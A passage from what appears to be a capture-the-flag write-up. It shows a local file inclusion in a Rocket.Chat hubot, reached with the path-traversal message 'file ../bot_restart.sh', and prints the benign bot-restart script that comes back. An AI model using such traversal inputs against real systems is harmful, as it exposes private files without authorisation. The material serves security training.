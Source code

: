 It returns the content of the `/home/dwight` folder, `dwight`'s home folder! We
got ourselves a LFI here.

#### Inspecting `/home/dwight/bot_restart.sh`

The most intriguing file to me in `dwight`'s home folder is the `bot_restart.sh`
file, so let's inspect it by sending the bot the `file ../bot_restart.sh`
message.

```sh
#!/bin/bash

# Cleaning hubot's log so that it won't grow too large.
echo "" >/home/dwight/hubot/.hubot.log

# For starting the bot 20-ish (10+20) seconds late, when the server is restarted.
# This is because MongoDB and Rocket-Chat server needs some time to startup properly
sleep 10s

# Checks if Hubot is running every 10s
while [ 1 ]; do
    sleep 20s
    alive=$(/usr/sbin/ss -tulnp | grep 8000)
    if [[ -n $alive ]]; then
        err=$(grep -i 'unhandled-rejections=strict' /home/dwight/hubot/.hubot.log)
        if [[ -n $err ]]; then
            # Restarts bot
            echo "[-] Bot not running! $(date)"
            #Killing the old process
            pid=$(ps aux | grep -i 'hubot -a rocketchat' | grep -v grep | cut -d " " -f6)
            kill -9 $pid
            cd /home/dwight/hubot
            # Cleaning hubot's log so that it won't grow too large.
            echo "" >/home/dwight/hubot/.hubot.log
            bash /home/dwight/hubot/start_bot.sh &
        else

            echo "[+] Bot running succesfully! $(date)"
        fi

    else
        # Restarts bot
        echo "[-] Bot not running! $(date)"
        #Killing the old process
        pid=$(ps aux | grep -i 'hubot -a rocketchat' | grep -v grep | cut -d " " -f6)
        kill -9 $pid
        cd /home/dwight/hubot
        bash /home/dwight/hubot/start_bot.sh &
    fi

done
```
